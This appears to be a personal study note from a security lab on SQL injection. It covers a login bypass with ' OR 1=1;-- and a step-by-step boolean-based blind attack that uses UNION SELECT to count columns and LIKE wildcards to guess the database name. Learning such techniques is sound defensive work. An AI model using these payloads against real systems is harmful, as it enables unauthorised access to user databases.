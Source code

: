 Login Forms that are connected to a database of users: Web Apps are often not interested in the username and password.
The database is just looking if there is a matching entry for a row with a combination of username and password.
Here the DB is just returning true or false
--> so we just need to inject a db query which returns true or false:

how our input is inserted in the query:
`select * from users where username='USERNAME' and password='PASSWORD' LIMIT 1;`

Here we could just provide `' OR 1=1;--` in the password field because 1=1 is always true and we skip the rest. --> `select * from users where username='USERNAME' and password='' OR 1=1;--' LIMIT 1;` -- > `select * from users where username='USERNAME' and password='' OR 1=1;`


## Boolean Based Blind
- the backend injects user input in a query but is returning only a boolean to the client if an entry was found or not (does not have to be a real boolean. can also be an error message if an account names exists or nor)
- in this case we can use `like '%'` wildcard and test a lot of examples if we get the true or false based message:

Example:
`http://URL/checkuser?username=admin` --> which displays a message "username already taken"
`http://URL/checkuser?username=admin123` --> which displays a message "username not taken"
in this example the query looks like this: `select * from users where username = 'USERNAME' LIMIT 1;` --> if no entry was found, the backend returns message "username not taken" otherwise "username already taken"

with `USERNAME' UNION SELECT ...;--` we can trick the query
--> we will use admin123 because that returned false. And. we wanna try to get any other result to true. so the part with the username should return no entries

### 1. getting amount of columns
We try out a `UNION` Statement with a set of column names. if the amount of column names is not correct, we will get false:
`http://URL/checkuser?username=admin123' UNION SELECT 1;--`
--> returns false

`http://URL/checkuser?username=admin123' UNION SELECT 1,2;--` --> again false

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3;--` --> true --> so we need to provide 3 columns


### 2. getting database name

`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like '%';--` --> true, because wildcard with just `%`is always true
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'a%';--` --> false --> try out more
...
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 's%';--` --> true --> brute force
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sa%';--` --> false
...
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sq%';--` --> true
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sqa%';--` --> false
...
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sqli_three%';--` --> true
`http://URL/checkuser?username=admin123' UNION SELECT 1,2,3 where database() = 'sqli_three';--` --> true --> database name is `sqli_three`
